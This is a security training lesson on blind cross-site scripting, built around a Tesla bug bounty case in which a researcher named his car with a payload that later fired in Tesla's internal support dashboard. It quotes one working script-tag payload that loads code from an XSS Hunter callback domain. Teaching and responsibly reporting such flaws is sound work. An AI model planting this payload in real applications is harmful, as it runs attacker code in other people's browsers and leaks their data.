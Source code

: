 In this lesson, we’re going to walk through this case study: [Cracking my windshield and earning $10,000 on the Tesla Bug Bounty Program](https://samcurry.net/cracking-my-windshield-and-earning-10000-on-the-tesla-bug-bounty-program/)

As if finding Cross-Site Scripting vulnerabilities wasn’t already hard enough, in some cases, it gets even harder: introducing, blind XSS.

Most of the examples we’ve talked about so far have returned results. When we find a vulnerability, we get some kind of response back letting us know that it worked.

But with Blind XSS, instead of seeing results, in a lot of cases, you can’t see whether your attack was successful or not. That’s not always the case as we’ll see because there can be some ways around it depending on the situation, but the point of it is that it’s not as easy as refreshing the page to see whether it worked or not.

Let’s take a look at an example with a case study about a Bug Bounty program that earned a guy named Sam Curry $10,000 for finding a Blind XSS vulnerability after cracking his Tesla’s windshield.

When Sam first started looking around for potential vulnerabilities, he wasn’t really finding much. At one point, he even renamed his car to this payload:

```"><script src=//zlz.xss.ht></script>```

Which is a payload generated by [XSS Hunter](https://xsshunter.com/) — a tool that can help with Blind XSS that we’ll take a look at later.

Sam couldn’t find anything interesting, and completely forgot he’d changed the name of his car. A few months later, he went on a road trip and a huge rock came from nowhere and cracked his windshield.

So, he contacted Tesla support through the Tesla app and setup an appointment to have it fixed.

The day after, he received a text message about the issue. He checked his XSS Hunter and saw something interesting.

One of Tesla’s agents responding to his request had fired his XSS Hunter payload from within the context of one of their domains.

They redacted the domain, so we don’t know what it was, but it was a subdomain of teslamotors.com:

`https://redacted.teslamotors.com`

The page that was used and vulnerable contained vital statistics about his vehicle, and he quickly realized that it was from a dashboard that Tesla employees would use to manage Tesla vehicles for support, and that, while Sam did not attempt this, he thought it was possible to guess other user’s car IDs and pull up their car’s profiles to not only access the same statistics about their cars, but also potentially modify configurations.

Sam warned Tesla about the issue. They pushed a hot fix within 12 hours, and paid him $10,000 within two weeks.

# Summary
So let’s recap what happened:
`. Sam changed his car’s name to be an XSS payload
2. The payload was triggered when a Tesla employee accessed his car’s information via their internal support tools in order to assist the customer
3. That payload communciated back with the XSS Hunter tool, triggering an alert for Sam to look into
4. XSS Hunter took a screenshot of the page and forwarded all the information it gathered when the payload was triggered

That is a great example of a Blind XSS attack! They’re not considered a different type of XSS attack because they typically rely on a stored XSS vulnerability. What makes them different is that the attacker has no idea whether the XSS payload was successfully stored, or if (and when) it will ever be executed. The attacker just has to wait and see if the payload gets pulled out of storage and rendered on a web page loaded by a user.

This makes blind XSS a ‘flavor’ of persistent XSS, and it needs some kind of technology to listen for if/when the payload ever gets triggered.

# Various Blind XSS Vulnerabilities
If you’d like more case studies on Blind XSS, and ironically from the same author, check this out:
- [https://samcurry.net/hacking-apple/#vuln12](https://samcurry.net/hacking-apple/#vuln12)

Then, go ahead and complete this lesson and let’s move on to the next where we will take a look at XSS Hunter, the tool that was mentioned and that made the Tesla hack possible.
